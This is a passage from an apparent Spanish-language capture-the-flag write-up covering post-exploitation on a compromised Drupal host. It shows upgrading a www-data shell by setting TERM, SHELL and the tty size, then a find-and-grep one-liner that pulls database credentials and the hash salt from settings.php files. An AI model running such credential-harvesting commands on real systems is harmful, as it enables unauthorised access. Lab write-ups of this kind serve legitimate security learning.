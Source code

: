 
Exportamos las variables de entorno **TERM** y **SHELL**
```
www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

![](img/Pasted%20image%2020241225223357.png#center)

Cambiamos el tamaño de la *tty*, si vemos el tamaño que tiene la máquina vicitma
```
stty size
```

![](img/Pasted%20image%2020241225223510.png#center)

SI la comparamos con mi máquina atacante
```
stty size
```

![](img/Pasted%20image%2020241225223540.png#center)


Vemos que hay una diferencia, lo que hacemos es modificar en la máquina victima y configurar el tamaño de la *tty*, como la que tenemos en nuestra máquina atacante.
```
stty rows 45 columns 208
```

![](img/Pasted%20image%2020241225223659.png#center)


## Enumeración Máquina Victima

Empezamos a revisar todos los archivos, no veo nada interesante, pero buscando por internet en la web de [HackTricks][find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null], encuentro un comando para leer el fichero `settings.php`, que suele estar en un *Drupal*
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
